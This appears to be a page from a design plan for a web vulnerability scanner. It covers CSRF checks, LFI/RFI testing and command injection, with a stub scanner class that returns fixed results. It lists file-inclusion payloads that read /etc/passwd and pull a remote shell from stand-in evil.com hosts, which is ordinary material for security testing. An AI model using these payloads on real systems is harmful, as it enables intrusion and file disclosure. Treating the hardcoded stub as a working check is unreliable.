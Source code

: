 **Features:**
- CSRF token detection
- SameSite cookie analysis
- Referer header validation
- State-changing operation testing

**Implementation:**
```python
class CSRFScanner:
    """CSRF vulnerability detection"""
    
    def check_csrf_protection(self, url):
        """Check for CSRF vulnerabilities"""
        return {
            'csrf_token_present': False,
            'samesite_cookie': 'None',
            'referer_validation': False,
            'risk_level': 'HIGH'
        }
```

---

### 4. Local File Inclusion (LFI) / Remote File Inclusion (RFI)
**Status:** Not implemented  
**Priority:** MEDIUM

**Features:**
- Test for directory traversal (../)
- Test file inclusion vulnerabilities
- Check for exposed configuration files
- Test for code execution via file upload

**Payloads:**
```python
LFI_PAYLOADS = [
    '../../../etc/passwd',
    '....//....//....//etc/passwd',
    '/etc/passwd%00',
    'php://filter/convert.base64-encode/resource=index.php',
]

RFI_PAYLOADS = [
    'http://evil.com/shell.txt?',
    'https://raw.githubusercontent.com/evil/shell.php',
]
```

---

### 5. Command Injection Detection
**Status:** Not implemented  
**Priority:** HIGH
